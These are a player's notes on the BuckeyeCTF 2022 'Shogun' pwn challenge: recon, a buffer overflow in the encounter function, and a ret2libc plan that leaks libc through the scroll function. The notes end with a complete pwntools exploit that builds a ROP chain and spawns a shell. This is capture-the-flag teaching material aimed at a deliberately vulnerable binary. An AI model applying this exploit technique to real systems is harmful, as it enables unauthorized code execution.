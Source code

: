* TOC
{:toc}

# Notice

This is currently just a hack note - aka, then notes I took on the challenge when I was playing. It will be flushed out into a full fleged writeup / walkthrough in the near future :)

This is a writeup about the 2022 BuckeyeCTF challenge `Shogun`

# BuckeyeCTF 2022 Shogun | Squibb

> Category: `pwn` | Difficulty: `medium`

> [Download original binary](/assets/binaries/shogun) `sha256sum: 30b8e78e8036bddb1b8314654a2b8c4e7056a64dff390cba40ddf14c2ded807e`

> [Download original source code](/assets/binaries/shogunOrigninal.c)

# Recon

## File

```
shogun: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0c6ef59275fd0386ecdccf02d6838d327ed11b61, for GNU/Linux 3.2.0, not stripped
```

## Checksec 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no Canary means we'll likely have to ROP, perhaps ret2libc

# Functions

## scroll

* Will take a `char\*` as input.

* Will slowly print out the inputted string, one character at a time

## Encounter

* Prints out a string of story flavor text

* Takes user input

    * Obvious buffer overflow, size 32 buffer with size 81 read using `fgets()`

## main

* Prints some story text

* Takes in user input

    * Checks to see if start of user input is `"Look around."`

    * If it is not, we die

    * If it is, we enter `encounter`


# Vulnerabilites

* Buffer overflow in `encounter` function

    * Large enough to allow for ROP

* No canaries or PIE, meaning we can ROP without stack data leaks

# Plan of Attack

* `ret2libc` attack, because we have an easy stack overflow into ROP vector.

**ISSUE**: Normally for `ret2libc` ROP, we would use a `Puts(Puts)` to leak a GOT table entry to find out where `libc` is. However, there is no `puts` reference in the GOT of the binary.

Must use another means to leak information...

We can use the `scroll` function, since it acts like puts!

# Exploit

* ... enter `encounter` function

* ROP to leak a GOT entry with the `scroll` function

* Use the leak to perform a `ret2libc` and grab a shell

# Final Script

```python
#!/bin/env python3

from pwn import *

DEBUG = True
FILE = "./shogun"
HOST = "pwn.chall.pwnoh.io"
PORT = 13373

POP_RDI_RET = 0x401383
RET = 0x40101a
PUTCHAR_GOT = 0x403FC0
BINSH = 0x1b45bd

context.arch = "amd64"
context.encoding = "latin"
warnings.simplefilter("ignore")

elf = ELF(FILE)
rop = ROP(FILE)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([FILE]) if (DEBUG) else remote(HOST, PORT)

BUFFER_SIZE = 0x20

print(p.recvuntil(b'disturbance. ').decode())
p.sendline(b'Look around.')
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(PUTCHAR_GOT)
payload += p64(elf.symbols["scroll"])
payload += p64(elf.symbols["_start"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.send(payload)

putCharPtr = p.recvuntil(b'You finally')[:6]
print(putCharPtr.hex())
putCharInt = int.from_bytes(putCharPtr, "little", signed=False)

libcBase = putCharInt - 0x86280

print(hex(putCharInt))

p.sendline(b'Look around.')
print(p.recvuntil(b'disturbance. ').decode())
print(p.clean().decode())
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(libcBase + BINSH)
payload += p64(libcBase + libc.symbols["system"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.sendline(payload)

p.interactive()

p.close()
```

